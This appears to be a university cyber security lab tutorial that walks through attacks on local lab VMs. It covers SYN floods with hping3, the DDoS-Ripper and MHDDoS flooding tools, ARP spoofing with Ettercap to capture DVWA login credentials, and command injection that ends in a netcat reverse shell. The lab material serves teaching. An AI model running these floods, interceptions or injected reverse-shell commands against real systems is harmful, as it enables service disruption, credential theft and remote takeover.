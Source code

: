 - [1. Denial of Service Attacks](#1-denial-of-service-attacks)
  - [1.1 TCP flooding using hping3](#11-tcp-flooding-using-hping3)
  - [1.2 Smurf DoS attack using DDos Ripper](#12-smurf-dos-attack-using-ddos-ripper)
  - [1.3 MHDDos Attack Script With 51 Methods](#13-mhddos-attack-script-with-51-methods)
  - [1.4 Man in the Middle Attacks and Session Hijacking](#14-man-in-the-middle-attacks-and-session-hijacking)
  - [1.5 Setting up a spoofing attack with Ettercap - ARP Spoofing](#15-setting-up-a-spoofing-attack-with-ettercap---arp-spoofing)
  - [1.6 Modifying the data between the client and the server](#16-modifying-the-data-between-the-client-and-the-server)
  - [](#)

----------


## 1. Denial of Service Attacks

### 1.1 TCP flooding using hping3

hping3 is application which can test the networking and systems at the network and transport layers. The testing approach is based on the three-phase communication which is SYN, SYN-ACK and ACK. TCP SYN flood happens when this handshake doesn't complete properly.

- type `top` in owasp vm to see the system usage, keep this open while performing the TCP SYN flood.
    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img1.png">

- go to kali vm and type `sudo hping3 192.168.56.102 --flood -S -p 445 ` .
  
    |Parameter|Definition|
    |:----|:----|
    |-S|default TCP mode|
    |-p 445|Specify the destination port which is 445|
    |-flood| specify a high omission rate to enable flooding.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img2.png">
----------


### 1.2 Smurf DoS attack using DDos Ripper

This attack consists of sending a series of ICMP echo requests with a spoofed source IP address to the network broadcast address. Less effective against the modern systems.

- Clone the repo from `git clone https://github.com/palahsu/DDoS-Ripper.git
`
- Navigate to project `cd DDoS-Ripper` and type `python3 DRipper.py`
- Next we will flood the OWASP vm with ICMP packet request using the following command. `python3 DRipper.py -s 192.168.56.104 -t 445` after entering open the windows VM and navigate to the server page. `http://192.168.56.102/`. You will notice a slow in the server but it does not crash.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img3.png">

----------


### 1.3 MHDDos Attack Script With 51 Methods

This script can be use to stress test websites using different methods.
- Clone the repository `git clone https://github.com/MHProDev/MHDDoS.git`
- Navigate to project `cd MHDDos` and install the requirements `pip install -r requirements.txt
`, after run the script `python3 start.py`.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img4.png">

- Run this command to flood the OWASP vm with TCP packets request from 1 thread for 3600 seconds. `python3 start.py tcp 192.168.56.104 1 3600
`. Next if you open the windows VM and navigate through server page there will be a delay when loading the pages.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img5.png">


----------

### 1.4 Man in the Middle Attacks and Session Hijacking
- A Man in the Middle (MITM) attack is the type of attack in which the attacker sets themselves in the middle of the communication line between two parties, usually a client and a server.
- This is done by breaking the original channel and then intercepting messages from one party and relaying them (sometimes with alterations) to the other.

----------


### 1.5 Setting up a spoofing attack with Ettercap - ARP Spoofing

Address Resolution Protocol (ARP) spoofing is maybe the most common MITM attack out there. It is based on the fact that the Address Resolution Protocol—the one that translates IP addresses to MAC addresses—does not verify the authenticity of the responses that a system receives.

- Open a root terminal and run `sudo ettercap -G`
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img6.png">
- Click on the right top tick and continue. Now click on the left side top icon with servers. Here you can see list of hosts in your private network. (If you can't see the hosts, click on the search icon)
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img7.png">
- Select the target host which is the OWASP vm (192.168.56.102) as target 1.
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img8.png">

- Click on the right side top icon with global and select MITM option ARP poisoning and click OK.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img9.png">

- Now move on to the windows VM and navigate to 'Damn Vulnerable Web Application' page and enter some credentials. After Clicking login check the ettercap terminal. You can see the username and the password from there.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img10.png">

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img11.png">

----------
### 1.6 Modifying the data between the client and the server
Vulnerability : Command execution

login to owasp dvwa 
username = admin / pswrd = admin

`;ls` , `;pwd`

 <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img12.png">

1. Go to the Kali vm and type the command, Checking the port is open
    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img13.png">
  
2. `; ls /bin/nc*`
   <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img14.png">

----------

### 

- Opening a port using netcap, `sudo nc -lp 1691 -v`. 1691 is the port number. 
- Keep running the vm, go to dvwa and enter command execution command `; /bin/nc.traditional -e /bin/bash 192.168.56.101 1691 &`

   <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img15.png">

